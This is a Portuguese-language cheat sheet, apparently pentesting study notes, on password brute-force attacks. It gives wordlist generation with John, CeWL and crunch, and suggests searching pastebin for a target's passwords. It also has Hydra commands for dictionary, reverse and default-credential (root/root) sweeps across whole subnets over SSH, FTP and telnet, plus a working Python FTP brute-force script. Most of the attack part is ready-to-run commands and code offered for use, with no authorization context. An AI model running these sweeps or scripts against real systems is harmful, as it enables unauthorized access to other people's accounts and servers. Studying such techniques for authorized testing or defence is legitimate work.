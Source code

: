 ##   Brute Force: Ataques em senhas

**Ataques de Força Bruta**

- Se o sistema não te bloqueia depois de 3 tentativas erradas ele provavelmente permite ataque de força bruta
- Se ele te bloquei mais volta a te permitir tentativas depos de certo tempo tambem é possivel setar o time para o numero de tentativas.
- Podemos analisar tbm caracteristicas do alvo e montar um wordlist com base no alvo
- Podemos tentar senhas default
- Pode ser tambem utilizado wordlists populares.

## Wordlists

**Word Lists Kali**

- usr/share/wordlists
- usr/share/seclists

Comando utilizado para buscar um termo dentro de varias wordlists

`grep -r "termo_pesquisado" *`

Buscando padrões de senha atraves do Google

site:pastebin.com "alvo_pesquisado"

Wordlist Longato

https://github.com/ricardolongatto/loncrack/blob/master/wl.txt




## Gerando mutação em wordlist

- Primeiro crie um lista com possiveis senhas utilizadas pelo alvo
- Depois execute o comando abaixo para fazer a mudação usando o John
- `john --wordlist=wl.txt --rules --stdout > wl_mutacao.txt`

Caso queira acresentar algum tipo de modificação para insereir na mutação, você pode alterar algumas configurações no john

- Acesse: /etc/john/john.conf
- Localize: List Rules Wordlist




## Gerando wordlists personalizadas

**CEWL**

Gerando lista de palavras com base no site

`cewl www.site.com -m 7 -w palavras`

**CRUNCH**

- % Digitos
- ^ Caracteres Especiais
- @ Caracteres Minúsculos
- , Caracteres Maiúsculos

Gerando lista com um padrão especifico

`crunch 10 10 -t palavra^^%% -o wordlist `




## Key Space Brute Force

Exemplo 01

`crunch 4 4 0123456789 -o pin `

Exemplo 02

`crunch 4 4 -f charset.lst mixalpha -o pin `




## Brute force com Hydra

Exemplo

`hydra -v -L users.txt -P senhas.txt 192.168.0.1 ftp`




## Reverse Brute force

*Obs: Realiza o atque de força bruta no login e não na senha*

Exemplo

`hydra -v -L users.txt -p admin 192.168.0.1 ssh`




## Low Hanging Fruit

*Obs: Buscar os pontos mais fracos e fáceis (Ex: credenciais default)*

Exemplo

`hydra -v -l root -p root -M targets ssh`

Exemplo

`hydra -v -l root -p root -M 192.168.0.0/24 ssh`




## Dicas Extras

`man hydra`

Exemplo

`hydra -v -L users.txt -p senhas.txt 192.168.0.1 telnet -t 1 -W 5`




## Construindo sua própria ferramenta

**Brute force ftp em python**

```
#!/usr/bin/python
import socket, sys,re

if len(sys.argv) != 3:
	print "Modo de uso: python lonftp.py 192.168.0.1 usuario"
	sys.exit()

target = sys.argv[1]
usuario = sys.argv[2]

f = open ('wordlist.txt')
for palavra in f.readlines():

	print "Realizando brute force FTP: %s:%s"%(usuario,palavra)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,21))
	s.recv(1024)

	s.send("USER "+usuario+"\r\n")
	s.recv(1024)
	s.send("PASS "+palavra+"\r\n")
	resposta = s.recv(1024)
	s.send("QUIT\r\n")

	if re.search('230', resposta):
		print "[+] Senha encontrada --->",palavra
		break
```




## Criando um cliente ssh em Python

```
#!/usr/bin/python
import paramiko

ssh = paramiko.SSHClient()
ssh.load_system_host_keys()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh.connect('172.16.1.5', username='root', password='root')

stdin, stdout, stderr = ssh.exec_command('ls')

for linha in stdout.readlines():

	print (linha.strip())

ssh.close()
```
